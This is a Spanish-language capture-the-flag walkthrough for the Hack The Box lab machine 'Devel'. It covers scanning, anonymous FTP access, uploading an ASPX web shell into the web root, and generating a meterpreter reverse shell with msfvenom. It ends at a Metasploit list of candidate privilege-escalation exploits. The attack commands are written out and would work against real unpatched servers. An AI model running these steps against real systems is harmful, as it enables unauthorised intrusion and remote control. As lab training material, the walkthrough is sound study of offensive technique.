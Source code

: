 # Devel ![Avatar](https://www.hackthebox.eu/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1_thumb.png)     

### Initial Scan

```nmap
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```
### Enumeration

####FTP

Empecemos enumerando el FTP
```bash
pj@crow-foot:~$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pj): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Vemos que lo que tenemos es el directorio de la pagina que hay en el puerto 80, puede que podamos subir una shell

### Exploit

Usaremos una shell aspx por que es un cliente aspnet
```
https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/aspx/shell.aspx
```
La descargamos y la subimos al FTP
```ftp
put shell.aspx
```
Y accedmos a http://10.10.10.5/shell.aspx

### Privesc

Ya tenemos shell en la máquina

#### Enumeración de Usuarios

```
 Directory of C:\Users

18/03/2017  02:16 §£    <DIR>          .
18/03/2017  02:16 §£    <DIR>          ..
18/03/2017  02:16 §£    <DIR>          Administrator
17/03/2017  05:17 ££    <DIR>          babis
18/03/2017  02:06 §£    <DIR>          Classic .NET AppPool
14/07/2009  10:20 §£    <DIR>          Public
```
No tenemos acceso a ninguno pero sabemos que los usuarios con flag son babis y Administrator ya que el actual no tiene acceso a ninguna flag

#### Versiones y hotfixes

Ejecutamos el comando systeminfo aún desde la webshell
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ££
System Boot Time:          1/8/2020, 1:44:56 ££
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 652 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.503 MB
Virtual Memory: In Use:    544 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
De aquí sacamos que tenemos un windows 7 de 32 bits y sin parchear

#### Convirtiendo la web shell en reverse shell
Generamos una Rev Shell con msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx  > shell.aspx
```
Subimos la revshell al FTP y nos conectamos a ella aprovechando que la hemos generado con msfvenom vamos a usar el exploit sugester de metasploit para poder encontrar una manera de elevar privilegios en la máquina
```
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
Veamos si alguno se puede hacer de manera cómoda


